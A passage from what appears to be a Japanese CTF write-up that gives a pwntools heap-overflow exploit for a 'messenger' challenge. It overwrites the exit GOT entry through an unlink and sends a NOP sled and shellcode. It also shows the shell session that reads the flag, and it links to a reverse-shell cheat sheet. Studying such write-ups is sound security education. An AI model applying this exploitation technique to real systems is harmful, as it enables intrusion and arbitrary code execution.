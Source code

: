 ```python
# 0x603040:	0x0000000000000000	0x00000000000003d0 <- 2nd chunk size
# 0x603050:	0x0000000000000000	0x0000000000603018 <- fd, bk
# 0x603060:	0x0000000000000000	0x0000000000000000

# resize 1st message and overwite 2nd chunk's bk
payload = ''
payload += 'A' * 0x18
payload += p64(0x3d0)               # size
payload += p64(0)                   # fd
payload += p64(addr_exit_got - 8)   # bk
change_message(0, len(payload), payload)

# add 2nd message
leave_message(4, 'AAAA')

# remove 2nd message
# now, addr_exit_got was overwitten to 3rd chunk's addr
remove_message(1)

# send shellcode
payload = ''
payload += '\x90' * 0x100
payload += shellcode
change_message(0, len(payload), payload)

# select undefined action to call exit()
choose_action('Z')

r.interactive()
```

    $ ./exploit.py
    [+] Opening connection to 110.10.212.137 on port 3333: Done
    [*] Switching to interactive mode
    $ ls
    flag
    messenger
    $ cat flag
    1_wan3_y0ur_m3ssenger$%
    $ 
    [*] Closed connection to 110.10.212.137 port 3333


## おわり

解くのは楽しかったけど, 過去問に似た正答者数の多く得点がどんどん下がっていった問題しか解けてないので厳しい...

### 参考URL

- [Reverse Shell Cheat Sheet | pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [katagaitai CTF勉強会 #1 pwnables編 - DEFCON CTF 2014 pwn1 heap / katagaitai CTF #1 // Speaker Deck](https://speakerdeck.com/bata_24/katagaitai-ctf-number-1)


[^1]: `stdin`, `stdout` などがプログラムが動いているサーバ側を向いているため.